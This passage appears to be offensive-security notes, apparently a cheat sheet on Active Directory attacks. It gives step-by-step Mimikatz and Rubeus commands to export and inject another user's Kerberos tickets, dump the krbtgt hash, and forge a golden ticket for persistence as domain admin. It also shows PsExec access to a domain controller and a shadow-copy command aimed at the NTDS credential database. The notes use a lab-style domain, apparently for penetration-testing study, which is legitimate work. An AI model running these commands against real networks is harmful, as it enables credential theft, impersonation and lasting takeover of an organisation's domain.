 ```shell
# NO ACCESS as some Domain User initially (jen in this example)
ls \\web04\backup

# 1 OBATAIN dave's TGS (dave has a TGS for this service)
privilege::debug
token::elevate
sekurlsa::tickets /export

# 2 CHECK TGS and copy it
dir *.kirbi

# 3 INJECT the above TGS
kerberos::ptt ...-dave@cifs-web04.kirbi

# 4 CHECK we have TGS
klist


#
# TO ACCESS!
ls \\web04\backup
```
## rubeus
```shell
.\Rubeus.exe ptt /ticket:[ticket]
```

# ***Persistence (DA)***
***Once DA, can use the following to persist***
## Golden ticket
```shell
# 1 OBTAIN krbtgt SID and NTLM hash
lsadump::lsa /patch


# 2 Clear existing tickets
kerberos::purge


# 3 Obtain TGT 
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt


# 4 Open cmd
misc::cmd


#
# PsExec
PsExec.exe \\dc1 cmd.exe
```
## Shadow Copy (ntds)
```shell
# Powershell
# 1 CREATE the copy
vshadow.exe -nw -p  C:
#powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

```